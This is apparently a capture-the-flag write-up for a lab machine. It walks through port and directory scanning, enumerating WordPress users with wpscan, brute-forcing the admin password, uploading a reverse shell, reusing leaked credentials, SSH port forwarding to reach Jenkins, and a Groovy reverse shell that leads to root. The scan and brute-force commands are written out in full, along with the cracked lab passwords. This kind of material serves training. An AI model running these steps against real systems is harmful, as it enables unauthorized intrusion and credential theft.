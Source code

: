 nmap result(./nmap_result)  
	```nmap -v -sV -p1-65535 $TARGET_IP | tee nmap_result```

	22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


	
gobuster result(./gobuster_on_80)  
	```gobuster dir -u http://$TARGET_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt | tee gobuster_on_80```

	/blog                 (Status: 301) [Size: 311] [--> http://10.10.88.179/blog/]
	/wordpress            (Status: 301) [Size: 316] [--> http://10.10.88.179/wordpress/]
	/javascript           (Status: 301) [Size: 317] [--> http://10.10.88.179/javascript/]
	/phpmyadmin           (Status: 301) [Size: 317] [--> http://10.10.88.179/phpmyadmin/]
	/phpmyadmin/index.php            (Status: 200) [Size: 10531]
	/phpmyadmin/templates            (Status: 403) [Size: 277]  
	/phpmyadmin/themes.php           (Status: 200) [Size: 10532]
	/phpmyadmin/themes               (Status: 301) [Size: 324] [--> http://10.10.88.179/phpmyadmin/themes/]
	/phpmyadmin/doc                  (Status: 301) [Size: 321] [--> http://10.10.88.179/phpmyadmin/doc/]   
	/phpmyadmin/license.php          (Status: 200) [Size: 10533]                                           
	/phpmyadmin/navigation.php       (Status: 200) [Size: 10536]                                           
	/phpmyadmin/js                   (Status: 301) [Size: 320] [--> http://10.10.88.179/phpmyadmin/js/]    
	/phpmyadmin/logout.php           (Status: 200) [Size: 10532]                                           
	/phpmyadmin/libraries            (Status: 403) [Size: 277]                                             
	/phpmyadmin/changelog.php        (Status: 200) [Size: 10535]                                           
	/phpmyadmin/url.php              (Status: 302) [Size: 0] [--> /phpmyadmin/]                            
	/phpmyadmin/export.php           (Status: 200) [Size: 10532]                                           
	/phpmyadmin/setup                (Status: 401) [Size: 459]                                             
	/phpmyadmin/sql.php              (Status: 200) [Size: 10529]                                           
	/phpmyadmin/sql                  (Status: 301) [Size: 321] [--> http://10.10.88.179/phpmyadmin/sql/]   
	/phpmyadmin/locale               (Status: 301) [Size: 324] [--> http://10.10.88.179/phpmyadmin/locale/]
	/phpmyadmin/import.php           (Status: 200) [Size: 10532] 
	
After examining /phpmyadmin, seemingly mysql is behind the site.  

SQLMap didn't find any parameter injectable.  

Tried every exploit on metasploit as follows, but they didn't work.   


	0  exploit/unix/webapp/phpmyadmin_config                 2009-03-24       excellent  No     PhpMyAdmin Config File Code Injection
	1  auxiliary/scanner/http/phpmyadmin_login                                normal     No     PhpMyAdmin Login Scanner
	2  post/linux/gather/phpmyadmin_credsteal                                 normal     No     Phpmyadmin credentials stealer
	3  auxiliary/admin/http/telpho10_credential_dump         2016-09-02       normal     No     Telpho10 Backup Credentials Dumper
	4  exploit/multi/http/zpanel_information_disclosure_rce  2014-01-30       excellent  No     Zpanel Remote Unauthenticated RCE
	5  exploit/multi/http/phpmyadmin_3522_backdoor           2012-09-25       normal     No     phpMyAdmin 3.5.2.2 server_sync.php Backdoor
	6  exploit/multi/http/phpmyadmin_lfi_rce                 2018-06-19       good       Yes    phpMyAdmin Authenticated Remote Code Execution
	7  exploit/multi/http/phpmyadmin_null_termination_exec   2016-06-23       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution
	8  exploit/multi/http/phpmyadmin_preg_replace            2013-04-25       excellent  Yes    phpMyAdmin Authenticated Remote Code Execution via preg_replace()

Scanned $TARGET_IP/blog using wordpress scanning tool, wpscan  
	```wpscan --url 10.10.111.161/blog -e vp,u```  
	One user found: admin  

Using this info, bruteforced passwords  
	```wpscan --url 10.10.111.161/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50```  
	Password Cracked: Username: admin, Password: my2boys  

Modifyied /etc/hosts to help resolve name(internal.thm --> $TARGET_IP)  

Uploaded a reverse shell to wordpress, and got a reverse shell.  
Then, I found an interesting file in /opt directory.  
```
	$ cd /opt
	$ ls
	containerd
	wp-save.txt
	$ cat wp-save.txt
	Bill,

	Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

	aubreanna:bubb13guM!@#123
```

Using this credential, I connect to the target using ssh.  
Found user.txt, in her home directory.  
Also, I found a txt file indicating jenkins is running on 172.17.0.2:8080.  

Ran linpeas.sh on the target.  
	Interesting Info  
		phpmyadmin's credential: wordpress(wordpress123)  

Performed SSH local forwarding to get access to a Jenkins portal page from web browsers.  
```ssh -L 8080:172.17.0.2:8080 aubreanna@$TARGET_IP```  

Then I accessed localhost:8080 from a web browser and performed a brute force on Jenkins Login page using Burpsuite. The wordlist I used was rockyou.txt.(Cracked)  
Then, using Groovy reverse shell scripts, I gained reverse shell to the target as jenkins user.  
Taking a look at /opt directory, I found notes.txt.  
```
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you 
need access to the root user account.

root:tr0ub13guM!@#123
```

Finally, I successfully connected to the target again using ssh as a root user.
